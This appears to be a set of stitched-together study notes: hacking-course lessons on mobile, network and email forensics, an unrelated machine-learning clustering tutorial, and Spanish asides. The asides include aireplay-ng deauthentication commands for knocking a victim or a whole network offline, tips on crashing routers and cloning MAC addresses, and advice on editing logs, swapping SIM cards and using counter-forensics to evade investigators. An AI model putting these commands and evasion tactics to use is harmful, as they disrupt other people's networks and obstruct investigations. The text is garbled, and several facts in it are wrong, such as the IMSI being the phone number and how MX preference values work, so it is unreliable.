  sufficient forensic and testimonial evidence of his crime to convict him on a
  number of counts.

  Albers Gonzalez: ONe of the longest convictions ever handed down for acomputer
  crime was convicted of stealing 90 million credit card and debit card numbers.
  The defendant ran a gang of cyber-thieves over several years and bought a
  yacht for himself using the stolen money. Teams of digital forensic examiners
  were called in to crack the case and provide evidence.

  The router is the default gateway by default, lol.

  Mobile Forensics:

  Using mobile communications as a tool in your planning and/or execution of the
  hack can provide you with a completely new set of options. Cell phones use
  several forms of signaling, one is the radio that links your phone to the
  closest antenna receiver, the next is the Bluetooth link that works for
  short-range connections, the GPS signal locator can be used for other
  funciotions, and lastly the phone has digital connection capabilities. We want
  to focus on the digital portion of a cellphone.

  Inside a cell phone is a Subscriber Identification Module (SIM) card that
  identifies your phone to you and your service provider. This SIM card is also
  the same card that stores some of your phone numbers and other text data. This
  card has an onboard microprocessor.

  SIM cards contain a special set of numbers known as International Mobile
  Subscriber Identity (IMSI). The IMSI is the phone number for that device and
  can be thought of as a Machine 

  What is Clustering?:

  In machine learning, we often group examples as a first step to understand a
  subject (Data set) in a machine learning system. Grouping unlabeled examples
  is called clustering.

  An unlabeled example is an example that contains feature sbut no label.
  Unlabeled examples are the input to inference. In semi-supervised and
  unsupervised learning, unlabeled examples are used during training.

  A feature is an input variable used in making predictions

  Predictions are A mode'ls output when provided with an input example.

  An example is one row of a dataset. An example contains one or more features
  and possibly a labe.lwhat is a dataset

  A dataset is a collection of data.

  In machine learning, inference often refers to the process of making
  predictions by aplying the trained model to unlabeled examples. In statustics,
  inference refers to the process of fitting the parameters of a distribution
  conditioned on some observed data.

  As the examples are unlabeled, clustering relies on unsupervised machine
  learning. If the examples are labeled, then clustering becomes classification.

  What are the Uses of Clustering?
  Clustering has a myriad of uses in a variety of industries. Some common
  applications for clustering include the following:

  - Market segmentation

  - Social network analysis

  - Search result grouping

  - Medical imaging

  - Image segmentation

  - Anomaly detection

  After clustering, each cluster is assigned a number called a cluster ID. Now,
  you can condense the entire feature set for an example into its cluster ID:
  Representing a complex example by a simple custer ID makes clustering
  powerful. Extending the idea, custering dara can simplify large datasets.

  Fr example, you can group items by differete features as destrated i the
  following examples:

  - Group stars by brightess.

  - Group organisms by genetic information into a taxonomy.

  - Group documents by topic

  Machine learning systems can then use cluster IDs to simplify the processing
  of large datasets. This, clustering's output serves as feature data for
  downstream ML systems.

  At Google, clustering is used for generalization, data compression, and
  privacy preservation in products such as Youtube videos, Play apps, and Music
  tracks.
  
  Generalization:

  When some examples in a cluster have missing feature data, you can infer the
  missing data from other examples in the cluster.

  For example, Less popular videos can be clustered with more popular videos to
  improve video recommendations.

  Data Compression:

  As discussed, feature data for all examples in a cluster can be replaced by the
  relevant cluster ID. This replacement simplifies the feature data and saves
  storage. THese benefits become significant when scaled to large datasets.
  Further, machine learning systems can use the cluster ID as input instead of
  the entire feature dataset. Reducing the complexity of input data makes the ML
  model simpler and faster to train.

  For example, Feature data for a single Youtuve video can include:

  - Viewer data on location, time, and demographics 

  - Comment data with timestamps, text, and user IDs

  - Video tags

  Clustering Youtuve videos lets you replace this set of features with a singles
  cluster ID, thus compressing your data.

  Privacy Preservation:

  You can preserve privacy by clustering users, and associating user data with
  cluster IDs instead of specific users. To ensure you cannot associate the user
  data with a specific user, the cluster must group a sufficent number of users.

  For examples, Say you want to add the video history for Youtube users to your
  model. Instead of relying on the user ID, you can cluster users and rely on
  the cluster ID instead. Now, your model cannot assosciate the video history
  with a specific user but only with a cluster ID that represents a large group
  of users.


  Mobile Forensics:

  Using moile communications as a tool in your planning and/or execution of the
  hack can provide you with a completely new set of options. Cell phones use
  several forms of signaling, one is the rafdio that links your phone to the
  closest antenna receiver, the next is the Bluetooth link that works for
  short-range connections, the GPS signal locator can be used for other
  functions, and lastly the phone has a digital connection capabilities. We want
  to focus on the digital portion of a cellphone.

  Inside a cell phone is a Subscriber Identification Module (SIM) cad that
  identifies your phone to you and your service provider. THis SIM card is also
  the same card that store of your phone mos semunbers and other text data. This
  card has an onboard microprocessor.

  Sim cards contain a special set of numbers known as International Mobile
  Subscriber Identity (IMSI). THe IMSI is the phone number for that device and
  can be thought of as a Machine Access Code (MAC) address for a celular phone.
  The first set of numbers of a MDN are assigned to the manufacture. SIM card
  editors like the ones available at Dekart will assist you in viewingthis
  number ser. (SIM MANAGER).

  Wireshark en source para que se ponga en número alfabético.

  La puerta de enlace predeterminada normally is 192.168.(network).1

  If you were going to onduct special business on a cell phone that might be
  traced, it is quite possible to have several SIM cards on hard. Changing out
  the cards after each call makes it nearly impossible to trace a cellular call.
  International SIm cards with preloaded calling credits are available in
  Europle, Korea, Japan, and other countries that do not have a cellular
  monopoly as in the United States.

  One point to consider is that cellular devices are tracked from cellular tower
  to tower, even if the device is just on. THis is part of the normal
  communication hand-off to ensure the cellular caller can make a connection
  quicly, at any time. In the near future, towers will track and maintain logs
  of wach cellular device that pass through their zones while communicating.
  This may sound contradictory to the paragraph above, however, the SIm card
  contains the hand-ser identifier. Changing out SIM chips is almost like
  changing out cellular devices.

  Short Message Service (SMS) are stored by each cellular phone carrier for
  several days or none at all. This shows how quicly evidence can disappear and
  timely response is critical. The messages are saved on the user's phone,
  usually on the SIM card or on the external memory card.

  Conect the Blue Wire to the Red Square:

  Another aspect of cellular digital communications is the ability to use Voice
  Over Internet PRotocol (VOIP). This communication tool uses VOIP software to
  create data voice communications between you and another VOIP user, bypassing
  cell phone sage charges. 

  Well, since VOIP is digital and a piece of software, we can encrypt the
  packets if you are using the Android OS. THe advanced Encryption Standard
  (AED) is a block cipher and can provide many levels of security. You will want
  to use the lowest encryption level, since VOIP is already going to be slow
  over a data phone.

  Some Disassembly Required

  Before you attempt to recover any data from a cellphone, turn off the celular
  signal, as in put the phone in "Airplane" mode. Celular providers can disable
  or deletele all data from a device if that device is reported as lost or
  stolen. Don't be that one person who forgets to disable the signal to the
  mother ship.

  Older devices used propietary cabled for charging and transferring data. These
  cables changed from device to device and never seemed to be interchangeable to
  anything. These days, most devices connect using a mini USB cable on one end
  and a standrd USB on the other. Apple products are the exception to this
  standard for "security" reasons.

  Cellular devices can store data in any one of three local areas. These areas
  are: The phone's built-in memory, the SIM card, and the external memory card.
  The good stuff (real evidence) isoften  located on the phone's internal memory
  and on the SIM card. SMS enabled devices often include software for
  "predictive text." Predictive text files can include portions or entire text
  messages that may not be located elsewhere.

  Besides the fact that cellular devices have Bluetooth, data transmission, and
  WiFI communication capabilitites, many are GPS enabled as well. All of these
  signals store information on the phone, the SIM card or on the external memory
  card. Forensic software allows an examination of each type of history,
  including the GPD. If the suspect enabled their GPD, all the waypoints and
  location history can be recovered to provide even more evidente.
  http://www.gpsvisualizer.com/ allows you to upload GPD data and it will create
  maps to show you where that where that data leads.

  Don't forget about the suspect's vehicle GPD as well as the on-board computer.
  Any vehicle built over the past decade has a diagnostic computer that tracks
  speed, fuel consumption, ignition sequence, pls more information that may help
  you solve the case. 

  iDevices: There are some folks have dedicated time and effort into open source
  projects such as IPBackup Analyzer. The purpose of this program is to look at
  data that is backed up on an Iphone and make it readable. One of the unique
  issues with Apple mobile products is the requirement for a back-up passcode.
  THe passcode can be bypassed using software tools, which will allow for
  examination of text messages, phone contacts, picture, video, emails and all
  evidence you might need to examine.

  http://www.nxtbook.com/nxtbooks/evidencetechnology/20120910/#/30

  Phone Software Tools

  Most of the major phone forensic software builders have found a niche market
  that allows them to charge a premium for their tools. There are a few open
  source and free products out there you might want to look into. Like anything
  else, each tool has pro's and con's but, you will need to have a working
  knowledge of several tools to be succesful.

  Oxygen: This software is capable of reading Iphone back ups, even if the data
  is protected by iTunes passwords.

  Bit Pim: This free software has one tiny drawback, the lack of support for
  newer smart phones.

  Sleuth Kit: Cellular forensics, it gives you the same capabilities as many
  commercial products.

  https://viaforensics.com/products/tools/ offers several free links to Android
  OS forensic tools. This site offers a book on Anroid Forensics plus several
  scripts for gathering your own data.

  https://viaforensics.com/iphone-forensics/howto-iphone-forensics-free-andor-open-source-tools-91411.html
  is a tool for forensics on apple.

  If a digital device is evidence in a case, do not turn off the device, this is
  critical if the phone is a pay-as-you-go since there isn't a signed contract
  with a mobile carrier. These phones are difficult to trace because they are
  disposable.

  of course you can't examine nor copy the SIM data without removing the
  battery. This is another reason to keep the cellular device powered by another
  way without relying on the battery. With out luck, the device battery will
  always be just about dead anywats.

  The forensic examination should be done using direct cables from the device
  yto your awesome lab computer. This means that all other communication means
  need to be shut off. Bluetooth, WiFi, GPS , and whatever else has to be turned
  off before an examination can begin. Failute to do so could render the
  evidense useless in a cour of law.

  Network Forensics:

  Network forensics are used to find out where a computer is located and to
  prove whether a particular file was sent from a pacticular computer over a
  network. 

  Firewall Logs

  Who's connecting to you?. The firewall is a utility that can control
  connections between two points in a network. There are many types of
  firewalls. Regardless of the firewall type and job of the firewall, it is the
  firewall logs, which five you the details. By using the logs you can find
  patterns of attacks and abuse to your firewall.

  As with any log file, the integrity of those files are essential. Think of log
  files as a smoking gun. Each file is stamped with time/date and certain
  propert rights. FIrewall logs are consiered "smart" logs because they are
  generated from a device that has perimeters and is not a simple hub or switch
  bos. Each packet is not recorder but each request and connection is recorded.
  You are looking for connections between specific IP addresses or the
  transmission of files between two connections.

  Packet Sniffers

  Packets of data flow through the veins of every networked dvice. SInce there
  are literally milions of packets moving between servers and other devices,
  looking at individual packets had always been thought to be impossible. With
  the increased power of computers and better software technology, we now have
  the capabilities to search through millions of transmitted packets to locate
  those that meet or requirements. We call this technique "packet sniffing."

  Packet sniffers come in all kinds of shapes and sizes but every type must be
  placed between the data flow transmissions. You can't head a conversation if
  you are not with the people who are talking. Packet sniffers can be active
  (looking) or passive (listening). The trick for an intruder is how to gather,
  store, and transmit those packets in your network without getting caught.

  Intrusion Detection Systems (IDS)

  This tempting name is a generic term for anything that can detect, alets, or
  shut down abnormal network activities. Snort is a perfect example of a program
  that can look for abnormal behavior in network traffic. 

  IDS were designed to be the watchdog of network traffic. Each type of IDS
  looks for protocols, signatures, ports and other locations where odd behavior
  might happen. SOme systems deny all and only allow authenticated users
  through, while othe IDS's bait and wait. The IDS's logs are full of wonderful
  details on odd behavior.

  Network Miner is used with Wireshark

  Router and Network Management Logs:

  There are a variety of open source software tools that should be part of any
  network evidence collectors kit, starting with the tried and true Wireshark.
  Since network traffic is data packets, or chunks of information, Wireshark
  captures and analyzes packets. Instead of making you going line by line
  through each packet to identify headers, routing information, sender , and the
  contents of each packet, Wireshark does all the heavy lifting for you.

  Netcat is another powerful open source program that analyses all network
  traffic including TCP and UDP, inbound and outbound, Ethernet and IP,
  including any service or port you'd like to look at. 

  Netcat has a hexdump utility built into the software and can capture/analyze
  packets.

  E-mail Headers

  E-mails come with information of every computer they pass through to get to
  you. This is added to the header portion of the email information. Sometimes
  the most important information is in the headers. To view the headers,
  however, is not always so simple. Various mail clients will all have different
  ways to view this. THe real trick to reading headers is to know they are read
  backwards. The top of the list is the receiver. Each toure the email travels
  goes with each line until the very last line is the computer or network that
  mail was sent from.

  This is only true if the email sender used their real email address to send
  it. Emails can be spoofed, IP addresses can be faked, and all sorts of other
  tricks might be used to disguise the real sender. THe header can provide some
  clues but don't expect to solve any cases based just on email header
  information.

  Within the email header, there is a segment called "Message-ID." THis set of
  characters is provided by the first email server then the message was sent.
  Since each ID is unique, proper logging can help you identify the location of
  the original sender. Look for the link listed right after the series of
  numbers and letter in the ID:

  THe sender "From" information in the header is configured by the email client
  and should not be considered reliable. Time stamps can also be misleading
  because email clients can be configured to send emails hours or days after the
  email was written. This is a technique known as "Delayed Send."

  Se puede clonar una MAC address conociendola para conectarse a una red, sin
  embargo, para poder tener incluso internet en la red conectada, se debe de
  cambiar a la misma IP. 

  A critical part of a hack is thinking through the entire process before
  touching the keyboard.

  How are you going to get inside your target?

  What controls do you need to disable or monitor during your network visit?

  What do you want and where is the location of your target?

  How are you going to transfer the data you want and where are you going to
  store it?

  What logs and audits needs to be restarted or edited as you exit to cover your
  tracks?

  Where are you planning to keep the new data for your safety and use?

  Social engineering is an excellent tool for gaining access to physical
  locations and networks. Recognizing it is a great way to be immune to (some or
  most of) it,

  Reconnaissance:

  Recon is learning the network vulnerabilitites, the types of servers you will
  be dealing with. What security measures are being used and what are their
  vulnerabilities. Can you turn those security devices to our advantage? Where
  are the network logs and audit logs kept? Are you going to install a backdoor
  for return work? What attack vectors are you comfortable using and will work
  accross each network?

  Software and Hardware vulnerabilities_

  You can locate all known exploits and vulnerabilities on all types of products
  by going to http://www.cvedetails.com or www.cve.mite.org. Both of these web
  sites should be part of your attack methodology as soon as you learn anything
  about the networks you will be dealing with.

  OpenVAS:

  OpenVAS is an open source vulnerability scanner and manager. The organization
  own Network Vulnerability Test (NVT) database is used to update the scanner on
  a daily basis. This "One-stop-shooping" for vulneabilities can be compared
  with CVE, without all the extra technical jargon. The software is a collection
  of tools that you can shape to fit your needs, even if you just want to know
  which vulnerabilities apply to an Apache web server.

  Attack Taxonomy is:::

  Attack Vector::

  Misconfiguration
  Kernel Flaws
  Design Flaws
  Buffer Overflow: Stack, Heap
  Insufficient Input validation
  Symbolic Link
  File Descriptor Attack
  ace Condition
  Incorrect Permission
  Social Engineering
  
  Operational Impact:: 

  Misuse of Resources
  User Compromise
  Root Compromise
  WEb Compromise
  INstalled Malware: Virues as System or MBR, File Infector or Macro
  Spyware
  Trokan
  Work: Mass Mailing, Network Aware
  Arbitrary Code Executiong
  Denial of Service: Host Based, Network Based or DIstributed

  Target::
  
  OS (Kernel/User/Driver), Family, Name or Version
  Network
  Local
  User
  Application as: Servers, Data Bases, Email or Web
  Client.

  Attack Vectos: These are methods to enter networks, using a variety of tools
  or known vulnerabilities. You will often see this term used alongside
  "malware", since attack vectors are mainly viewed as malicious network entry
  points by the security professionals. In our use of the term, we are merely
  showing you the types of ways to enter networks, in a specific category.

  Weapons to Hack Networks

  Blackgole is a package of "mouse click" exploits aimed at giving any hacker
  with any degree of skill, several ways to gain administrator access on a
  network. 

  THC-Hydra works to crack network logon passwords. THe program has an excellent
  use for switches inthe command prompt for LInux. THis program can be run
  through a proxy, through FTP, IRC, HTTP, and several other protocols.

  Metasploit has been around as a penetration testing software in the open
  source community. Metasploit has a large library of add-ons, plug-in, and
  configurations. Many security professionals have this software as part of
  their "have to have" toolbox.

  The Fedora Security Spin is another community project aimed at education and
  the safe testing of secutiry tools. 

  Cain and Able is the ultimate in Script Kiddie software. Cain was originally
  designed as a standalone program to recover passwords from SAM dumps (Windows
  password files). The program is still excellent at performing that same tast,
  just finding anyone running an old version of Windows is difficult. Able was
  added to increase the usefulness of the tool and buil a penetration-testing
  package. Cain and Able together offer really easy access to really insecure
  networks.

  Fyodor.

  Counter Forensics: 

  COunter forensic software tries to perform one or both functions of deleting
  all log files and/or erasing all data that could have been alteredduring a
  network visit. Both methods could ring very loud alarms if not used correctly.
  Counter forensic tools are mainly used on a single computer to remove, hide,
  cover-up, and generally make a forensic examiners job difficult or impossible.

  There are a few issues that need to be considered if you plan on using counter
  forensic software. The first issue is the examiners determination that counter
  forensic software was actually used on your machine. This alione would raise
  suspicion as to why anyone would use this software ifthey idn't have anything
  to hide.
  
  Second, locating and deleting every bit of data remnants from swap files, temp
  directories, pagefiles, and every speck of data that could link you to the
  hack.

  Third, forensic examiners are paid either by salary or by the hour. THey are
  primarily paid to prodiuce enough evidence to convict someone. If you have
  created an evidence recovery challenge that would take too long for any
  examiner to make a case against you, they will likely stop looking at some
  point. Time is money. Take your time to add more work for an examiner ahead of
  time.

  There are several opportunities for a criminal to use counter-forensic methods
  on a device. THese include:

  Many forensic examiners do not know how to deal with advanced users who can
  manipulate the operating system or hide data. The push for new igital forensic
  personnel has created a "shake n bake" process where the person attends a few
  classes and is handed a piece of software o use. This leaves so much
  experience needed to the wil of the software manufactures.

  Forensic software doesn't have a set standard for the scientific process of
  collecting, analyzing, and reporting a repeatable method. Different software
  will show different results. This, results cannot be replicated. 

  There is no common body of knowledge amongst digital forensic experts. This
  means there are several ways to slice an aples. There is no established method
  to conduct a digital forensic examination or even publish the results.

  Digital forensic examiners and software/hardware hasn't been designed for
  field environments. This stuff was created to be used in a nice clean lab,
  with perfect conditions, and all the tools you would ever need.

  A simple alteration to the evidence, such as a delayed file update or system
  time change would render the entire forensic collection useless. The data
  would not be accepted by a court of law because of a simple change.

  Current forensic laws, tools, and techniques do not work in a cloud setting.
  Because of the design in cloud computing, any forensic analysis will involve
  shared reources. What this means is when a forensic examiner attempts to
  retrieve suspected evidente, they are going to also grab data that belongs to
  other people, as well. THIs doesn't mean that an attack against one cloud
  service is going to o unreported or not investigated. The cloud provider will
  conduct their own investigation and look at legal issues. THe crimes that
  involve one account, one suspect, one victim, or one event are going to
  ebtricky because the cloud service may not be willing to help you out.

  Issues with Cloud Forensics:

  No jurisdiction over data. MOst cloud providers have redundant data centers
  located in several places throughout the world.

  Massive increase of cellular devices accessing/loading/creating/altering and
  moving data in the cloud. This means that data could be in several places at
  the same time.

  No celtral role for management to help filter out suspects. You do not own the
  data storage, you are just renting it.

  No acces control to keep data segreagated for a forensic investigation.
  Customers can get to that data at any moment, at any time.

  Lack of physical infrastructure to create a time-line or determine timestamps
  or log events.

  Terms and conditions between organization and Cloud provider may not allow a
  forensic investigation that will meet your requirements.

  Retrievel of evideceevidence without modifying it is extremely difficult.

  Each cloud service handldes their data storage and service conditions
  differently.

  If a crime was commited against the cloud provider, the provider has the
  jurisdiction over that criminal activity. THe cloud customer may have limited
  or no access to cloud data, more so, if the social media site owns that data.
  THis is the case with services such as Facebook, there the content isersu
  driven bur owned by the cloud service.

  Digital forensics is not an easy task, nor it is an easy profession. You must
  be detail oriente, able to document everything you do to the evidence you
  find, think like a criminal and have an enormous amount of patience to locate
  all evidence. Besides that ,you need to be willing and able to be an expert
  witness, if called to testify in a case.

  ON the other hand, some education and experience with forensics techniques and
  tools can help you maintain the privacy and confidentiality you've been losing
  fast in our digital world.

  If you were brave enough to complete this lesson, you know we discussed where
  media comes into play as source to hide data, boot up a computer and hide
  evidence within data or within the operating system. You were introduced to
  some very tricky places that data can be hidden and how to thwart forensic
  experts.

  Digital forensics is filled with areas that require expert knowledge or at
  least a fairly good understanding of that area. THis lesson was designed to
  provide you a taste of what you can expect if you want to work in this amazing
  field - or just be an informed computer user.

  Hacking email:

  Overall: How Email works:

  Email is created either using an email client such as Outlook, Mail, Eudora,
  Pegasus or Thunderbird. Or on a web service like Yahoo Mail, using a web
  interface. It's almost funny how much email mimics "snail mail," because your
  message is enclosed in an envelope.

  SMTP Envelope:

  R: 220 www.domain.net ESMTP Postfix 
  S: HELO mta.examples.com
  R: 259 Hello mta.examples.com, please to meet you

  S: MAIL FROM: <joe@examples.com>
  R:250 joe@domain.net... Sender ok

  S: RCPT TO: <sue@domain.net>
  R: 250 sue@domain.net ... Recipient Ok

  -----------------------------------------------------

  S: DATA
  R: 354 End data with "." on a line by itself

  Message Header:

  S: Subject: Wanna catch a drink?
  S: From: joe@example.com
  S: To: sue@domain.net
  Message Body
  S:
  S: Hey sue,
  S: How have you been ....
  S: .........

  ----------------------------------------------------
  
  R:250 Ok:queued as 31337

  S: QUIT
  R: 221 Bye

  You are sent to a mail server called a Mail Transmission Agent (MTA), which
  queues you for transmission. Modern mail systems do this tipically via
  encrypted SMTP (Simple Mail Transport Protocol) since they require
  authentication to prevent abuse, and encryption protects credentials from
  disclosure, along with the email contents. MTAs accepting email (you) without
  some sort of authentication are called "open relays" and tend to be abused by
  senders of junk mail, also known as UCE (Unsolicited Commercial Email) or
  spam.

  For each address ("recipient") in the message, the MTA first checks if a
  recipient is local (right on the same computer). If not, the MTA uses a
  so-called MX record to find the server for the relevant domain. If there is no
  valid receiving host found, a failure message for that specific address if
  sent back to the sender.

  The MTA attempts to deliver you to each address. If this fails, the MTA
  re-queues the message to try again later until timeout occurs and a delivery
  failure message is returned, usually in 48 hours. So you have to hang around
  for about two datys. This delivery may initially be deliberatly delayed by the
  receiving MTA as an anti-spam technique: spam software is typically less
  intelligent and will not queue an retry delivery (the technique is called
  greylisting). By defailt, this delivery takes place via unencrypted SMTP.
  Encrypted connections are the exceptions rather than the rule.

  Optionally, a mail relay picks you ip and routes you to your final
  destination. This typically happens in environments with spam and virus
  filtering and where security dictates a layered model, such as enterprise or
  government networks.

  The receiving MTA expands the address if it is an alias or a mailing list.
  These do not need to be in the same domain: an alias can expand into a whole
  new email address on another server. After expansion, you are re-queued for
  further delivery.

  When an email address refers to a local mailbox, you are now moved into that
  mailbox (unless the mailbox has exceeded its storage quota). 

  You are then picked up via the POP3 or IMAP protocol by webmail or a mail
  client. Here too, the connection is generally encrypted (with SSL) to prevent
  leaking login credentials; the protocols are POP3S and SSL IMAP. POP3 is a
   "pick up" process: it downloads messages, then deletes them from the server
  (this can be date driven). IMAP is a synchronization process that seeks to
  keep clients' mailboxes idential to what is on the server account (for mobile
  devices this is typically within a date rance to preserve device storage),
  which makes IMAP perfect to maintain email on multiple devices at the same
  time.

  FInally, most email clients now have junk mail detection built in, usually
  based on Bayesian, pattern scoring principles. 

  The Three Stages of Spam Filtering:

  Receiving servers first check on origin: an SMTP connection is refused from
  blacklisted servers.

  When a connection is accepted, email is then scanned for content. Some
  organizations are concerned they may have a message falsely marken as junk
  mail; they may require suspect email to be marked as junk, but still
  delivered.

  Finally, most email clients now have junk mail detection built in, usually
  based on Bayesian, pattern-scoring principles.

  You start at one place and may or may not end up at another place, depending
  on whether:
  
  You have the correct address
  You are too big
  You are spam
  The receiving mail box is too small
  You are too old
  
  When working in Linux and UNIX in general, *dig* is your best friend for
  testing DNS settings. MX records are very important to email delivery, so
  let's have a look at them briefly. MX records are for email, and have no
  relationship to websites for the same domain. 

  aireplay-ng -0 0 -a (MAC address de Access Point) -c (MAC de la víctima) -x
  150 (host)(127.0.0.1)(wlan) 
para desconectar a alguien de una red.
  
  The web server of "domain.com" may be a completely different system from the
  mail server, which is why those DNS recors are identifies differently. The way
  
  dig <domain name> MX

  tells dig to extract only mail exchange records from the relevant domain.

  dig <servername> <type>

  Para tumbar toda la red es :

  aireplay-ng -0 0 -a Mac AP -x 150 (host)(127.0.0.1:1)(wlan0mon)

  As an examples, the MX records for Google's gmail.com domain are:

  ;; ANSWER SECTION:

  gmail.com.           893   IN   MX   10 alt1.gmail-smtp-in.1.google.com
  -----------------------------------------------------------------------

  There are three values in each line that are of interest. The "893" is a time
  to live value (how many seconds, or how many routers to hop, depending) you
  will find in every DNS record- it indicated how long a DNS is allowed to cache
  the record before the information is considered stale and has to be retrieved
  again.

  The "10" in the top line, and numbers in the subsequent lines are "preference"
  values, followed by a Filly Qualified Domain Name (FQDN) of a system prepared
  to handle email. THe preference values are used by the MTA to decide which of
  the machines in the MX records list to try first, and which to contact next,
  should the first one fail or refuse email. If no servers is found to accept
  the email, a failure message is sent back to the email originator (using the
  "reply-to" or "from" information). Lower values indicate preferred MTAs. Thus,
  the last entry in the list above will be tried first, with the rest as
  fallback if the first system fails or is overloaded.

  A service can also offer records with identical preferences; here is the
  response from yahoo.com where the preferences evalue is set to "1" on all
  records.

  Doing this means the email load will be distributed over the 3 system equally.
  THe very low TTL value of "48" suggests this DNS entry is dynamicaly
  controlled, a sign of an active load balances. Load balancers fo pretty much
  that their name says they do: they make sure traffic (inbound, outbound, high
  priority, low priority) gets the level of attention it deserves.

  Last but not least, you can also identify whether the receiving domain uses
  mail filtering. 

  THe Risky Business of Email Composition:

  Disclosure: Tink about whom you are emailing, why and how. Not only is email
  transimssion by default insecure when it leaves the local MTA, you are also
  releasing information. THe use of encryption such as PGP, GPG and S/MIME
  requires both sides to be similarly equipped, and is generally perceived as
  very complicated to use. An alternative way to protect the transmission would
  be the use of the same email provider: that way, the message never needs to
  travel accross the Internet in an unencrypted form. This is where the how
  question appears: are you sure your provider or that of the recipient (or one
  or the other of your fovernments) is not listening in? Take that into
  consideration when you handle something confidential.

  Rerouting: An email address does not need to remain in the domain it is sent
  to, but could be redirected elsewhere. As an example, the US company pobox.com
  does not sell mailbox services, only aliases. THe main risk is that your email
  may th sutravel over various, different legal jurisictions before it arrives
  at its destination. In our example, a pobox.com alias will always go via MTAs
  in the US first, and is this at risk of interception under the ongoing abuse
  of the US PATRIOT Act.

  Privacy violations: A recipient using services such as Facebook or Google
  exposes his email to automated scanning of content, even though the sender
  never gave that permission!.

  DIstribution lists: if you use an email distribuiton list, use the BCC (Blind
  Carbon Copy) field for it. Email addresses in the TO : and CC: field are
  visible to every recipient of the email, and could end up giving away the
  contents of your email list to an uncontrolled third party, and expose your
  recipients to spam and other junk mail.

  Conflict: AN email is like a letter, but is written and sent much more quicly,
  which leaves you less time to consider its contents. 

  Misaddressing: ONe of the main causes of emai lgoing astray is misaddressing.
  THis is a consequence of mail clients trying to autofill an adress from the
  characters types by the user. Always check if the recipient is indeed the
  intended one.

  Multiple recipients: When you send email to more than one person, make sure
  the content is appropiate for all recipients. Also, it is good practice and
  ethically correct to visibly copy someone in if you use their information or
  tal about them.
  
  Legal issues: Disclaimers under your email may look impressive, but have no
  legal value other than a copyright notice. You sent the email, so you cannot
  disavow its content (to a degree, of course you could always claim its sender
  was spoofed) and you cannot prescribe what an incorrect recipient should do
  with an email because you probably don't have a contractual relation with
  them.

  It's possible to dañar a router with a lot of petitions per second when doing
  a MAC hack
  
  Receiving Email:

  Mail clients contact the servers on which mailboxes are stored, and check if
  the top message count has not changed. SOme clients do this periodically (for
  instance, every 30 minutes), some do it manually (usually to preserver
  bandwidth) and some maintain a simple permanent connection with the mail
  server so that they receive an update as soon as new email arrives (called
  push notification).

  When an email is inbound, the mail client or webmail environment will pick
  this up via POP3 or IMAP. Mobile clients usually download only the header and
  a small portion of the message to save bandwidth, leaving it up to the user to
  decide if the whole message should be picked up, left for later or deleted.

  Si se hace el ataque de MAC por 1 hora aprox, es capaz que el router se
  restaure a valores de fábrica.

  Cryptography Protecting Contents From Disclosure

  The simplicity of email makes it also vulnerable. THe sender cannot be sure
  that an email is not altered on its way to the recipient, there is no way to
  make sure that only the receiver can read it and a receiver cannot be sure it
  is actually sent by the person listed in them email as the sender.

  One way to ensure confidentiality is to encrypt a document before attaching it
  to an email. For example, it is possible to encrypt text documents and
  spreadsheets like those produced by OpenOffise, and PDF files support
  encryption too. However, applying cryptography to email itself is easier, and
  also allwos for the email contents to be secured.

  Email headers still need to be left in cleartext so that the mail servers can
  process and deliver the email.

  Email security can be provided in two different ways: using PGP (or GPG) and
  S/MIME. Both use encryption to assure:

  Confidentiality: can only the intended recipient(s) read this email?
  Integrity: Is the email content unchanged?
  Authenticity: Did the email really come from a particular sender?

  In general, authenticity and integrity are combined in electronically signing
  an email: the email gets checksummed, and the result is encrypted and embedded
  in an electronic signature that could only have been made by the person who
  holds the right private key.

  Confidentiality is assured by using someone's public key to encrypt the
  message body, so that only the holder of the correct private key can decrypt
  and read it. For extra assurance, such a message can be signed too.

  You should keep in mind that encrypted email is rather uncommon, especially in
  an era where people voluntarily let their email be scanned by comanies such as
  Google and Facebook. In some countries, you must make sure that you have the
  means to access your email when athorities demand this of you, for instance in
  the US by the TSA when you cross the border, and in the UK when served with
  warrant under the Regulation of investigative Powers Act.

  PGP and GPG:

  PGPG stands for Pretty Good Privacy.

  You are more likely to come across the Open Source version called GPG (GNU Privary Guard). GPG uses only open, publicly evaluated algorithms.

  GPG works on the principle of public/private key management, which means that
  keys have a PUBLIC part you can give to anyone who wants to send you encrypted
  email, and a PRIVATE part you have to keep sectret, which is the only way to
  decipher the message you have received. THe combination of private and public
  key is called a key pair, and it is generally the first thing you generate
  when you install GPG on a machine. THe key pair is protected by a password so
  that it cannot be altered by anyone but the owner. Alterations may be
  necessary because you want to change the email addresses the key supports, or
  want to make use of other functions.
  Because you need someone's public key to encrypt a message to them, servers
  such as pgp.mit.edu exist where you can download the key or keys associated
  with a specific email adress and upload your own. It is possible that keys
  have expired or password have been lost, so always use the latest key or eve
  better, ask your cecipient to send theirs and confirm the key fingerprint (
  ashort version of the checksum).

  MIME:

  MIME (Multi-Purpose Internet Mail Extensions) is an email extension of the
  SImple Mail Transfer Protocol (SMTP). MIME gives you the ability to transfer
  different types of media and data like audio, video, images, compressed files,
  and applications as attachments to email. The MIME header is inserted at the
  beginning of the email and the receiving email client uses this information to
  determine which program is associated with the attached file. MIME in itself
  does not provide any security to emails or attachments.

  S/MIME (Secure/Multipurpose INternet Mail Extensions) is a protocol that adds
  digital signatures and encryption to internet MIME message attachments. Using
  digital signatures, S/MIME allows for authentication, message integrity and
  non-repudiation of origin. "non-repudiation" means you can't deny you sent it.

  S/MIME provides privary and data security (using encryption) to emails that
  use this protocol. It is both a security tool and a security issue since users
  can send sensitive data or secrets as attachments to outbound emails in order
  to avoid detection. THerefore, the use of S/MIME in a corporate setting should
  be carefully monitores on the email servers.

  Key Trust:

  How do you ensure that a key for an emil recipient is really theirs, and not
  uploaded by someone else? The solution to this is that keys can be signed by
  others. Imageine you already have the key of someomne else who you trust, and
  who knowns the person you want to email with. THat other person can sign the
  public key, which means you invest a bit more trust in the key, provided you
  know this other person. THis is known as inherited trsut. You can also find
  another way to get in touch with the person and either receive their full
  public key, or receive the key "fingerprint" - a checksum of the key which is
  quick to verify. On a key server, a key can also have an ID - yet another
  checksum serving the same goal.

  Sending An Encrypted Email using GPG:

  Most email clients support plugins that mek the handling of keys and
  encryption easier. The best thing to do is to check beforehand if you
  recipient has a public  key and get it from a key server, or from the
  recipient themself.

  THen, compose your email as normal (once again we strongly recommend plain
  text email over HTML). add any attachments and tell your email client to
  encrypt and send the email. If you decided to sign the email, the email client
  will use your private key to sign the message first, then use the public key
  of your recipient to encrypt the email and any attachments. If you protect
  your key pair with a passphrase, your email client will ask for that
  passphrase.

  Fluxion is used to scan nearby networks.

